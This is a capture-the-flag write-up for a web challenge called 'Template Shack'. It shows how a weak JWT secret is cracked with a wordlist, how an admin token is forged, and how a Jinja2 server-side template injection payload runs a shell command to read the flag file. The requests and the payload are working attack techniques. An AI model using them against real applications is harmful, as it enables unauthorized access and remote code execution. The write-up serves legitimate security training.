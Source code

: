 ```yaml
---
layout: post
title: "Template Shack"
author: "INXS_JOY"
tags: ['Web']
---
```


Check out the coolest web templates online!

Connect here:
[http://jh2i.com:50023](http://jh2i.com:50023)

## Solution

* Having a look at the request header of the webpage, we notice that there is a JWT token in a cookie.

```
GET / HTTP/1.1
Host: jh2i.com:50023
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: token=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6Imd1ZXN0In0.9SvIFMTsXt2gYNRF9I0ZhRhLQViY-MN7VaUutz9NA9Y
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
```

* Trying to brute force the secret key of the JWT token using this [tool](https://github.com/lmammino/jwt-cracker), we get the secret key: supersecret.

```
Command: 

python3 crackjwt.py eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6Imd1ZXN0In0.9SvIFMTsXt2gYNRF9I0ZhRhLQViY-MN7VaUutz9NA9Y /usr/share/wordlists/rockyou.txt

Output:

Cracking JWT eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6Imd1ZXN0In0.9SvIFMTsXt2gYNRF9I0ZhRhLQViY-MN7VaUutz9NA9Y
291167it [00:26, 11150.29it/s]Found secret key: supersecret
291167it [00:26, 10911.29it/s]

```

* Now that we have the secret key for the JWT token, let's go to [jwt.io](https://jwt.io) and set the user name parameter to admin. Get the computed JWT and paste it into cookie token of the GET request /admin.

```
GET /admin HTTP/1.1
Host: jh2i.com:50023
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: token=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImFkbWluIn0.Ykqid4LTnSPZtoFb11H-_2q-Vo32g4mLpkEcajK0H7I
Upgrade-Insecure-Requests: 1
```

* The /admin request gets us to a complicated looking admin panel where most of the buttons don't work but clicking on the charts or tables shows us a custom 404 Page. This can often lead to SSTI in Flask Web Applications and we can test this by sending /admin/\{\{2+2\}\}

> Pro Security tip: Don't reinvent the wheel. xD

![alt-text]({{site.baseurl}}/assets/Template-Shack/404.png)

* Using /admin/\{\{request.application.__globals__.__builtins__.__import__('os').popen('cat flag.txt').read()\}\} payload, we are able to read the flag.txt file which was present in the current directory. You can read more about Jinga SSTI [here](https://www.onsecurity.co.uk/blog/server-side-template-injection-with-jinja2)

## Flag
```
flag{easy_jinja_SSTI_RCE}
```
